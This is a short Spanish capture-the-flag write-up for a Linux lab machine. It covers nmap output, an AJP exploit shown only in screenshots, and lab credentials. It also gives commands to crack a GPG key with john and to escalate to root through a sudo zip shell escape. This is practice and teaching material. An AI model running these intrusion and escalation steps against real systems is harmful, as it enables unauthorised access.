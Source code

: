 #Linux #Easy 
### nmap
```python
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

### El puerto 8009 tiene un apache (protocol v1.3) esto se ve muy vulnerable asi que buscaremos exploit en internet. 
conseguimos uno en python vamos a probarlo.
![[Pasted image 20231108220910.png]]
![[Pasted image 20231108221204.png]]

### Username
```python
	skyfuck:8730281lkjlkjdqlksalks
```
### intentamos entrar en el puerto ssh con las credenciales que hemos conseguido
![[Pasted image 20231108222709.png]]

### tenemos dos archivos interesantes asi que los enviaremos a nuestra maquina. usando netcat.
maquina atacante
![[Pasted image 20231108225042.png]]
maquina victima
![[Pasted image 20231108225117.png]]

### usaremos gpg2john para sacar el hash del archivo y despues lo usaremos para pasarle a john de la siguiente forma
```python
	gpg2john tryhackme > hash.txt

	luego usaremos has para pasarlo a john

	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20231108225457.png]]
### usando la herramienta pgp vamos a desencrictar los hahs 
```python
	pgp --import tryhachme.asc
	pgp --decrypt credential.pgp
```
usaremos las credenciales de alexandru
![[Pasted image 20231108233123.png]]

### obtenemos otro usuario llamado merlin con lo que parece su clave.
veremos si tenemos permisos sudos con sudo -l
![[Pasted image 20231108235244.png]]
### podemos hacer todo sobre el archivo zip. asi que aprovecharemos esto para escalar provilegios
```python
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	sudo rm $TF
```
cambiaremos el "zip" por la ruta absoluta donde esta nuestro zip. en este caso /usr/bin/zip
![[Pasted image 20231108235752.png]]
### Ahora somos Root.
